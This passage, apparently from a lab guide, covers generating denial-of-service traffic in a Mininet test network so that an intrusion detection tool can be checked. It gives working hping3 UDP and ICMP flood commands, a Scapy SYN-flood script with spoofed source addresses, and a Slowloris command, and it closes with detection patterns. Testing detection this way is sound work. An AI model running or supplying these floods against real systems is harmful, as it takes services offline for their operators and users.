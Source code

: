 - Flood UDP:
  ```bash
  mininet> mininet> hping3 --udp --flood -p 53 10.0.0.2
  ```

- ICMP Echo Request (Simulates a Ping Flood)
  ```bash
  mininet> hping3 --icmp --flood 10.0.0.2
  ```

<br>

4. **LOIC/HOIC** 
Also tools such as **LOIC** or **HOIC** can generate massive traffic to a target. Use them with caution in isolated environments.


<br>

#### Custom attacks
1. **Scapy**
Scapy is a Python library for creating custom packages.
- Example: Generating a SYN Flood with Scapy
  ```python
  from scapy.all import *

  target_ip = ‘192.168.1.10’
  target_port = 80

  for i in range(1000): # Adjust the loop to intensify the attack
      ip = IP(src=RandIP(), dst=target_ip)
      tcp = TCP(sport=RandShort(), dport=target_port, flags=‘S’)
      packet = ip/tcp
      send(packet, verbose=0)
  ```
<br>

2. **Slowloris** (Slow HTTP attack)
Slowloris is a Python script to simulate a slow HTTP attack.
- Execution:
   ```bash
   python slowloris.py -p 80 -s 150 192.168.1.10
   ```

  Options:
  - `-p` : Specifies the port.
  - `-s`: Number of simultaneous connections.


<br>

---

### **Detection settings**
Make sure that your detection tool is configured to detect these patterns:
- Network tracking
  - Scanning activity on several ports from the same IP.
- DDoS
  - High volume of packets from different IP addresses.
  - Packets with specific flags (e.g. TCP SYN without ACK).

